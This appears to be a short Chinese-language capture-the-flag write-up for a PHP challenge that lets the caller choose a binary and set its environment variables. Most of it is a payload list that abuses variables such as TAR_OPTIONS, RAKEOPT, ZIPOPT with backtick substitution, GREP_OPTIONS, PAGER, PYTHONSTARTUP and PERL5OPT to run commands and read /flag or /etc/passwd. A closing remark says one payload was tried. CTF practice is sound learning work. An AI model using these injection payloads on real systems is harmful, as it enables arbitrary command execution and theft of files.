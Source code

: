 ```shell

/bin/bzip2
?file=/bin/bzip2
&p[]=BZIP=/flag/f1444g

/bin/tar
?file=/bin/tar
&p[]=TAPE=/usr/src/php.tar.xz
&p[]=TAR_OPTIONS=-x --to-command="rgrep . /flag"

/usr/bin/rake
?file=/usr/bin/rake
&p[]=RAKEOPT=-e "print `rgrep . /flag`"

/usr/bin/xz
?file=/usr/bin/xz
&p[]=XZ_OPT=--files=/flag/f1444g

/usr/bin/zipinfo
?file=/usr/bin/zipinfo
&p[]=ZIPINFO=-s /flag/*

/usr/bin/zip
?file=/usr/bin/zip
&p[]=ZIPOPT=/tmp/a.zip -T -TT`cat$IFS$1/flag/f1444g;`
?file=/usr/bin/zip
&p[]=ZIP=-0 -r - /flag

/usr/bin/unzip
?file=/usr/bin/unzip
&p[]=UNZIP=-p /tmp/pwn.zip

/bin/grep
?file=/bin/grep
&p[]=GREP_OPTIONS=-r . /flag

/usr/bin/systemctl
PAGER='ls /' systemctl

/usr/bin/python
PYTHONSTARTUP='/etc/passwd' python

/usr/bin/perl
PERL5OPT='-Mbase;print(`id`)' perl /dev/null
```

随便试了一个：

![image-20220404111237077](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-4440c298c7d8acc146083c8db99454fb6dd53644.png)

似乎BUU的环境有问题，bot好像都坏了，但是我发现原环境没关
